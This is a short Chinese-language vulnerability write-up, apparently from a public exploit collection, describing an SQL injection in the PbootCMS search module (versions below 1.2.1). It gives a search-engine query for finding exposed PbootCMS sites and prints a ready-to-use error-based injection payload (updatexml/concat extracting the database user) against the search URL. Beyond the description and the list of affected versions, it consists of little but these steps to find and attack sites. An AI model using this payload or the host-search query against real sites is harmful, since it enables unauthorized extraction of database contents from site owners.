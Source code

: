 # PbootCMS search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS < 1.2.1</a-checkbox></br>

## 网络测绘 

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

搜索框页面为

![img](../../../.vuepress/public/img/image-20210702112736099.png)



Payload为



```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```



![img](../../../.vuepress/public/img/image-20210702112805069.png)



